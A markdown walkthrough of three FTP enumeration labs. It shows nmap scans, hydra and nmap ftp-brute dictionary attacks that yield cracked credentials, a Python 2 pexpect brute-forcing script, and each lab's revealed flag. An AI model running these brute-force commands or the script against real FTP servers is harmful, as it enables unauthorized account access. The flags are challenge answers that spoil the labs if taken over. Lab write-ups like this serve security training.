

# 🔬FTP Enum

**`FTP`** (**F**ile **T**ransfer **P**rotocol) - a *client-server* protocol used to transfer files between a network using TCP/UDP connections.

It requires a command channel and a data channel.

Default FTP port is **`21`**, opened when FTP is activated for sharing data.

```bash
sudo nmap -p21 -sV -sC -O <TARGET_IP>
```

## Lab 1

>  🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
>  - Target IP: `192.217.238.3`
>  - Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
	eth1@if170718   UP   192.217.238.2/24
```

- Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
[...]
Service Info: OS: Unix
```


> 📌 FTP server version is `ProFTPD 1.3.5a`.

### [ftp](https://linux.die.net/man/1/ftp)

- Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

- Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server 

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/da
ta/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```


> 📌 Found credentials are:
>
> `sysadmin:654321`
> `rooty:qwerty`
> `demo:butterfly`
> `auditor:chocolate`
> `anon:purple`
> `administrator:tweety`
> `diag:tigger`

- Use [nmap ftp-brute script](https://nmap.org/nsedoc/scripts/ftp-brute.html) to find the `sysadmin`'s password

```bash
echo "sysadmin" > users
```

```bash
nmap --script ftp-brute --script-args userdb=/root/users -p21 192.217.238.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     sysadmin:654321 - Valid credentials
|_  Statistics: Performed 23 guesses in 6 seconds, average tps: 3.8
```

- Extract the 7 flags hidden on the server by logging in to the `ftp` server with each found user

```bash
ftp 192.217.238.3

ftp> ls
ftp> get secret.txt
ftp> exit

root@attackdefense:~# cat secret.txt 
```

<details>
<summary>Reveal Flag - sysadmin flag is: 🚩</summary>


`260ca9dd8a4577fc00b7bd5810298076`

</details>

<details>
<summary>Reveal Flag - rooty flag is: 🚩</summary>


`e529a9cea4a728eb9c5828b13b22844c`

</details>

<details>
<summary>Reveal Flag - demo flag is: 🚩</summary>


`d6a6bc0db10694a2d90e3a69648f3a03`

</details>

<details>
<summary>Reveal Flag - auditor flag is: 🚩</summary>


`098f6bcd4621d373cade4e832627b4f6`

</details>

<details>
<summary>Reveal Flag - anon flag is: 🚩</summary>


`1bc29b36f623ba82aaf6724fd3b16718`

</details>

<details>
<summary>Reveal Flag - administrator flag is: 🚩</summary>


`21232f297a57a5a743894a0e4a801fc3`

</details>

<details>
<summary>Reveal Flag - diag flag is: 🚩</summary>


`12a032ce9179c32a6c7ab397b9d871fa`

</details>

## Lab 2

>  🔬 [VSFTPD Recon: Basics](https://attackdefense.com/challengedetails?cid=519)
>
>  - Target IP: `192.119.169.3`
>  - Enumeration of [vsftpd](https://security.appspot.com/vsftpd.html) server

```bash
ip -br -c a
	eth1@if170803   UP  192.119.169.2/24
```

- Target IP is `192.119.169.3`

```bash
nmap 192.119.169.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.119.169.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```



> 📌 FTP server version `vsftpd 3.0.3`

- Use [nmap ftp-anon script](https://nmap.org/nsedoc/scripts/ftp-anon.html) to check `anonymous` user login

```bash
nmap --script ftp-anon -p21 192.119.169.3
```

```bash
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Dec 18  2018 flag
|_drwxr-xr-x    2 ftp      ftp          4096 Dec 18  2018 pub
```

> 📌 Anonymous FTP login allowed

```bash
ftp 192.119.169.3
# Use anonymous:anonymous to login
```

```bash
Name (192.119.169.3:root): anonymous
    331 Please specify the password.
Password:
    230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag 
```

<details>
<summary>Reveal Flag: 🚩</summary>


`4267bdfbff77d7c2635e4572519a8b9c`

</details>

------

## Lab 3

>  🔬 [VSFTPD Recon: Dictionary Attack](https://attackdefense.com/challengedetails?cid=520)
>
>  - Target IP: `192.14.30.3`
>  - Dicotionary attack on `vsftpd` server
>  - *FTP server terminates the session after 3 attemps*

```bash
ip -br -c a
	eth1@if170888   UP   192.14.30.2/24 
```

- Target IP is `192.14.30.3`

```bash
nmap 192.14.30.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.14.30.3
```

```bash
21/tcp open  ftp     vsftpd 3.0.3
```

```bash
echo "billy" > users

nmap --script ftp-brute --script-args userdb=/root/users -p21 192.14.30.3
```

```bash
21/tcp open  ftp
| ftp-brute: 
|   Accounts: 
|     billy:carlos - Valid credentials
|_  Statistics: Performed 78 guesses in 55 seconds, average tps: 1.5
```

> 📌 *billy*'s password is `carlos`

- A custom script to attemp the logins is required if automated dictionary attack do not work, since the server terminates the sessions after 3 login attempts.
- `e.g.` python script:

```bash
nano billy.py
```

```python
import pexpect
import sys
username=sys.argv[2]
password_dict=sys.argv[3]

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

itr = 0
# Iterating over dictionary
for password in lines:
	child = pexpect.spawn ('ftp '+sys.argv[1])
	child.expect ('Name .*: ')
	child.sendline (username)
    print "Trying with password: ",password
	child.expect ('Password:')
	child.sendline (password)
	i = child.expect (['Login successful', 'Login failed'])
	if i==1:
		#print('Login failed')
		child.kill(0)
	elif i==0:
		print "Login Successful for ",password
		print child.before
		break
```

```bash
python billy.py 192.14.30.3 billy /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
```

```bash
Login Successful for  carlos
```

- Fetch the flag using `billy:carlos` credentials

```bash
ftp 192.14.30.3

ftp> ls
ftp> get flag
ftp> exit

root@attackdefense:~# cat flag
```

<details>
<summary>Reveal Flag: 🚩</summary>


`c07c7a9be16f43bb473ed7b604295c0b`

</details>

------

